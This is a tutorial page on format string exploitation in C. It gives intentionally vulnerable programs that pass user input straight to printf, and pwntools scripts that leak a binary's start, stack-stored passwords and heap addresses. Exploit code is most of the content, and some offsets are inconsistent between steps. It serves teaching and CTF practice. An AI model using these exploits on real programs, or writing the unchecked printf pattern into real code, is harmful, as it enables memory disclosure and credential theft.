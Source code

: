 # Format Strings - Arbitrary Read Example


## Read Binary Start

### Code

```c
#include <stdio.h>

int main(void) {
    char buffer[30];

    fgets(buffer, sizeof(buffer), stdin);

    printf(buffer);
    return 0;
}
```
```
Compile it with:

```python
clang -o fs-read fs-read.c -Wno-format-security -no-pie
```
```
### Exploit

```python
from pwn import *

p = process('./fs-read')

payload = f"%11$s|||||".encode()
payload += p64(0x00400000)

p.sendline(payload)
log.info(p.clean())
```
```
- The **offset is 11** because setting several As and **brute-forcing** with a loop offsets from 0 to 50 found that at offset 11 and with 5 extra chars (pipes `|` in our case), it's possible to control a full address.
  - I used **`%11$p`** with padding until I so that the address was all 0x4141414141414141
- The **format string payload is BEFORE the address** because the **printf stops reading at a null byte**, so if we send the address and then the format string, the printf will never reach the format string as a null byte will be found before
- The address selected is 0x00400000 because it's where the binary starts (no PIE)

![[broken-reference]]


## Read passwords

```c
#include <stdio.h>
#include <string.h>

char bss_password[20] = "hardcodedPassBSS"; // Password in BSS

int main() {
    char stack_password[20] = "secretStackPass"; // Password in stack
    char input1[20], input2[20];

    printf("Enter first password: ");
    scanf("%19s", input1);

    printf("Enter second password: ");
    scanf("%19s", input2);

    // Vulnerable printf
    printf(input1);
    printf("\n");

    // Check both passwords
    if (strcmp(input1, stack_password) == 0 && strcmp(input2, bss_password) == 0) {
        printf("Access Granted.\n");
    } else {
        printf("Access Denied.\n");
    }

    return 0;
}
```
```
Compile it with:

```bash
clang -o fs-read fs-read.c -Wno-format-security
```
```
### Read from stack

The **`stack_password`** will be stored in the stack because it's a local variable, so just abusing printf to show the content of the stack is enough. This is an exploit to BF the first 100 positions to leak the passwords form the stack:

```python
from pwn import *

for i in range(100):
    print(f"Try: {i}")
    payload = f"%{i}$s\na".encode()
    p = process("./fs-read")
    p.sendline(payload)
    output = p.clean()
    print(output)
    p.close()
```
```
In the image it's possible to see that we can leak the password from the stack in the `10th` position:

![[../../images/image (1234).png|]]


![[../../images/image (1233).png]]


### Read data

Running the same exploit but with `%p` instead of `%s` it's possible to leak a heap address from the stack at `%25$p`. Moreover, comparing the leaked address (`0xaaaab7030894`) with the position of the password in memory in that process we can obtain the addresses difference:

![[broken-reference]]


Now it's time to find how to control 1 address in the stack to access it from the second format string vulnerability:

```python
from pwn import *

def leak_heap(p):
    p.sendlineafter(b"first password:", b"%5$p")
    p.recvline()
    response = p.recvline().strip()[2:] #Remove new line and "0x" prefix
    return int(response, 16)

for i in range(30):
    p = process("./fs-read")

    heap_leak_addr = leak_heap(p)
    print(f"Leaked heap: {hex(heap_leak_addr)}")

    password_addr = heap_leak_addr - 0x126a

    print(f"Try: {i}")
    payload = f"%{i}$p|||".encode()
    payload += b"AAAAAAAA"

    p.sendline(payload)
    output = p.clean()
    print(output.decode("utf-8"))
    p.close()
```
```
And it's possible to see that in the **try 14** with the used passing we can control an address:

![[broken-reference]]


### Exploit

```python
from pwn import *

p = process("./fs-read")

def leak_heap(p):
    # At offset 25 there is a heap leak
    p.sendlineafter(b"first password:", b"%25$p")
    p.recvline()
    response = p.recvline().strip()[2:] #Remove new line and "0x" prefix
    return int(response, 16)

heap_leak_addr = leak_heap(p)
print(f"Leaked heap: {hex(heap_leak_addr)}")

# Offset calculated from the leaked position to the possition of the pass in memory
password_addr = heap_leak_addr + 0x1f7bc

print(f"Calculated address is: {hex(password_addr)}")

# At offset 14 we can control the addres, so use %s to read the string from that address
payload = f"%14$s|||".encode()
payload += p64(password_addr)

p.sendline(payload)
output = p.clean()
print(output)
p.close()
```
```
![[broken-reference]]





